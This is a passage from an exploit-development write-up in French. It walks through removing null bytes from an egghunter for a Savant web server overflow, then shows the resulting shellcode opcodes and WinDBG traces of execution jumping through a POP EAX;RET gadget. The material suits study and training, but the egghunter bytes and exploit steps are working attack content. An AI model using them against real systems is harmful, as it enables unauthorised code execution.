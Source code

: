 On obtient des *null bytes* : `\x00\x00\` en passant de `push 0x2` a `push 0x1c6`. Problématique, car les *null bytes* sont des mauvais caractères.

On va utiliser l'instruction `NEC` qui est l'equivalent d'une soustraction sur `0`. On doit trouver un nombre qui soustrait a `0` va donner `1c6`.

On fait les opérations dans WinDBG :

```powershell
0:004> ? 0x00 - 0x1C6
Evaluate expression: -454 = fffffe3a
0:004> ? 0x00 - 0xfffffe3a
Evaluate expression: -4294966842 = ffffffff`000001c6
```

On met à jour le code `Python` qui génère les *opcodes* du *egghunter* pour l'adapter

```py
" loop_check:     "
  # Save the edx register which holds our memory 
  # address on the stack
"  push edx   ;"
  # Push the negative number value of the system call number
"  mov eax 0xfffffe3a   ;" 
  # Initialize the call to NtAccessCheckAndAuditAlarm
"  neg eax                              ;"
  # Perform the system call
"  int 0x2e   ;" 
```

On génère de nouveau les *opcodes* suite a la mis à jour :

```py
$ python3 egghunter_v2.py
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\xb8\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e\x3c\x05\x5a\x74\xeb\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe6\xaf\x75\xe3\xff\xe7")
```

On positionne un point d'arrêt sur l'adresse ou se trouve l'instruction `POP EAX;RET` :

```powershell
0:010> bp 0x418674
*** WARNING: Unable to verify checksum for C:\Savant\Savant.exe
#
#
0:010> g
Breakpoint 0 hit
eax=00000000 ebx=018f5778 ecx=0000000e edx=77841670 esi=018f5778 edi=0041703c
eip=00418674 esp=0477ea2c ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
Savant+0x18674:
00418674 58              pop     eax
#
#
0:005> ph
eax=0477fe70 ebx=018f5778 ecx=0000000e edx=77841670 esi=018f5778 edi=0041703c
eip=00418675 esp=0477ea30 ebp=41414141 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
Savant+0x18675:
00418675 c3              ret
#
#
0:005> ph
eax=0477fe70 ebx=018f5778 ecx=00000000 edx=77841670 esi=018f5778 edi=0041703c
eip=0477ea88 esp=0477ea34 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
0477ea88 0f8411000000    je      0477ea9f                                [br=1]
#
```